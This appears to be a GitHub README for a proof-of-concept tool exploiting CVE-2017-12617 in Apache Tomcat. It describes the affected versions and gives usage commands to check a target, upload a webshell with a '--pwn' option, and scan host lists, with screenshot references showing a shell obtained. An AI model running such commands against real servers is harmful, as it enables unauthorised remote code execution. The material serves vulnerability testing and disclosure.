 # CVE-2017-12617
CVE-2017-12617 critical Remote Code Execution (RCE) vulnerability discovered in Apache Tomcat 


<p>affect systems with HTTP PUTs enabled (via setting the "read-only" initialization parameter of the Default servlet to "false") are affected.

<p>Tomcat versions before 9.0.1 (Beta), 8.5.23, 8.0.47 and 7.0.82 contain a potentially dangerous 
<p>remote code execution (RCE) vulnerability on all operating systems if the default servlet is 
<p>configured with the parameter readonly set to false or the WebDAV servlet is enabled with the 
<p>parameter readonly set to false

# Apache Tomcat  page


<br>./cve-2017-12617.py [options]

<br>options:

<br>-u ,--url [::] check target url if it's vulnerable 
<br>-p,--pwn  [::] generate webshell and upload it
<br>-l,--list [::] hosts list

<br>[+]usage:

<br>./cve-2017-12617.py -u http://127.0.0.1
<br>./cve-2017-12617.py --url http://127.0.0.1
<br>./cve-2017-12617.py -u http://127.0.0.1 -p pwn
<br>./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
<br>./cve-2017-12617.py -l hotsts.txt
<br>./cve-2017-12617.py --list hosts.txt


<br><h2>Banner</br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/banner.PNG)

![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/1.PNG)
<br><h3>Check target if it's vulneabel </br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/44.PNG)
<br><h3> Confirm file was  created </br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/2.PNG)
<br><h3> Create Webshell and get shell
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/3.PNG)
<br><h3> Scan hosts in txt file<br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/5.PNG)









<h1> <h1> [ @intx0x80 ]




